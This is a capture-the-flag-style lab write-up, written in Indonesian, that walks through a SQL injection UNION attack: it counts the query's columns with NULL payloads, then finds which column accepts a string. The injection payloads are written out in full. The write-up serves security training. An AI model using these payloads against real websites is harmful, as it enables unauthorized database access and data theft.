



# SQL Injection UNION attack, finding a column containing text

---

## Challenge Overview

**Title:** SQL Injection UNION attack, finding a column containing text

**Category:** Injection (SQLi)

Lab ini menguji teknik **SQL Injection UNION attack** untuk:

1. Menentukan jumlah kolom dari query asli.
2. Menemukan kolom yang kompatibel dengan tipe data string.
3. Menampilkan string acak yang diberikan lab (`IKBbF5`) di hasil query agar lab dianggap **Solved**.

---

## Tools Used

* **Burp Suite** → untuk intercept & modifikasi request kategori produk.
* **Web Browser** → untuk memverifikasi hasil langsung di UI aplikasi.

---

## Step by Step Solution

### 1. Tentukan jumlah kolom

Coba payload dengan `NULL` bertahap:

```sql
'+UNION+SELECT+NULL--          → error
'+UNION+SELECT+NULL,NULL--     → error
'+UNION+SELECT+NULL,NULL,NULL-- → berhasil
```


* Query asli punya **3 kolom**.

---

### 2. Uji kolom string-compatible

Kita masukkan string `IKBbF5` ke setiap kolom:

* **Kolom 1**:

  ```sql
  '+UNION+SELECT+'IKBbF5',NULL,NULL--
  ```

  → tidak tampil.

* **Kolom 2**:

  ```sql
  '+UNION+SELECT+NULL,'IKBbF5',NULL--
  ```

  → string `IKBbF5` muncul 

* **Kolom 3**:

  ```sql
  '+UNION+SELECT+NULL,NULL,'IKBbF5'--
  ```

  → tidak muncul.

Jadi **kolom ke-2** kompatibel dengan string.

---

### Step 3: Payload final

Payload yang berhasil:

```sql
'+UNION+SELECT+NULL,'IKBbF5',NULL--
```

Hasil: string `IKBbF5` muncul di halaman produk → lab **Solved** 